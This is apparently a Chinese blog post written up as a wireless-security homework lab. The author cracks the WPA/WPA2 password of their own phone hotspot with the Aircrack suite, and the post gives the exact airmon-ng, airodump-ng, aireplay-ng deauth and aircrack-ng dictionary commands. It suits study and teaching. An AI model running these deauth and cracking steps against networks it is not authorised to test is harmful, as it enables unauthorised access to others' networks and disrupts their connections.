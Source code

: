 ```yaml
---
title: 窥间伺隙：Aircrack 套件破解 WPA/WPA2 密码
date: 2020-10-18 13:24:01
tags:
  - Kali
  - 网络
  - 实践记录
categories:
  - 安全工具
---
```


《无线网络安全》作业。梦回大一。

<!--more-->

## 准备工作

手机开启热点，设置弱密码 `merc123321`，热点 SSID 为 `nova 4`。物理机连接 `nova 4` 无线网络作为被害主机。

![图 1](1.png)

为 Kali 虚拟机添加无线网卡，随后即可在 `ifconfig` 的输出中看到 `wlan0` 网卡：

![图 2](2.png)

首先启动监听：

```shell
$ sudo airmon-ng start wlan0
```

结果如图：

![图 3](3.png)

此时 `ifconfig` 可以看到 `wlan0mon` 监听网卡：

![图 4](4.png)

随后扫描无线网络：

```shell
$ sudo airodump-ng wlan0mon
```

结果如图，可以看到 `nova 4` 网络的 BSSID 为 `D8:9B:3B:9E:AB:A9`。

![图 5](5.png)

利用该 BSSID 过滤掉其余网络流量：

```shell
$ sudo airodump-ng -c 11 --bssid D8:9B:3B:9E:AB:A9 -w psk wlan0mon
```

结果如图：

![图 6](6.png)

## 捕获 WPA 握手包

此时我们需要捕获到 WPA 握手包，因此可以攻击一个已经连接到该网络的主机（即我们的物理机），让它强制掉线并重连产生握手包。

首先查看被害主机 MAC 地址：

![图 7](7.png)

可以看到 MAC 地址为 `F4:8C:50:9F:E5:43`。实际上，在前面 `airodump-ng` 时的界面中也可以直接看到连接了该网络的主机 MAC 地址。随后发送 `DeAuth` 包使其掉线：

```shell
$ sudo aireplay-ng -0 1 -a D8:9B:3B:9E:AB:A9 -c F4:8C:50:9F:E5:43 wlan0mon
```

出现 `WPA handshake` 即捕获到了握手包，可以停止捕获了。

![图 8](8.png)

## 口令破解

此时在目录下会生成 `psk-01.cap` ，我们使用 `aircrack-ng` 进行口令破解：

```shell
$ sudo aircrack-ng -w password.lst -b D8:9B:3B:9E:AB:A9 psk*.cap
```

使用的字典中包含了 `merc123321` 这个真正的密码：

```shell
$ cat password.lst
merc123
merc1234
merc123456
123merc
1234merc
123456merc
merc123321
merc321123
```

最后即可成功破解：

![图 9](9.png)
